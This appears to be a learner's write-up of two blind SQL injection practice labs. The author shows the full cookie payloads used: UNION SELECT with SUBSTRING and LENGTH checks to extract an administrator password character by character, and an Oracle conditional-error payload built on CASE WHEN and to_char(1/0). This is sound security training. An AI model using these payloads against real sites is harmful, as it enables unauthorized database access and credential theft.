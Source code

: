 We're assigned a cookie, containing:

- `TrackingId`: `An7ULvNAx2nN1yR0`
- `session`: `CAFbY8etgaQhKir9cteDfJIpY9dT0vSL`

The vulnerable part should be the `TrackingId` value. In fact, I changed the value to see the number of columns (spoiler: 1):

```http
Cookie: TrackingId=An7ULvNAx2nN1yR0'+ORDER+BY+1--; session=CAFbY8etgaQhKir9cteDfJIpY9dT0vSL
```

Then I had to cycle through every character of the user `administrator`'s password, since I only could do it manually.

```txt
# repeat until desired results

Cookie: TrackingId=Axyz'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'AND+SUBSTRING(password,1,1)='f'--; session=4GmO79XDPt7enDCVxYQbF3F4mHOP367j
```

Thanks to the request below, I also discovered the number of characters: `20`.

```http
Cookie: TrackingId=Axyz'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'AND+LENGTH(password)=20--; session=4GmO79XDPt7enDCVxYQbF3F4mHOP367j
```

The password I found was: `fg4v54o5b8qngh5im0ub`.

### Lab 2

> Blind SQL injection with conditional errors

First things first, I used `ORDER BY` to get the number of columns.

```http
Cookie: TrackingId=ph'+ORDER+BY+1--; session=gkxkpzrQycB4SAgna7wWvuvjvZWuzWBs
```

After discovering that the number is `1`, I tried finding out the database type. I was continuously getting errors when using `UNION SELECT`, so I tried `FROM DUAL`, and it succeeded. It means this is an `Oracle` database. Also I discovered that the column contains `strings`.

```http
Cookie: TrackingId=ph'+UNION+SELECT+'a'+FROM+DUAL--; session=gkxkpzrQycB4SAgna7wWvuvjvZWuzWBs
```

Then I tried retrieving the password of the user `administrator` from the table `users`.

```http
pf'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)>0)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

After a few tens of minutes, I managed to create an injection that allows me to get the password. If the character (of the password) is greater than '5' (in this case), then it will throw an error.

```http
Cookie: TrackingId=pf'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,1,1)='5')+THEN+to_char(1/0)+END+FROM+users--; session=gkxkpzrQycB4SAgna7wWvuvjvZWuzWBs
```
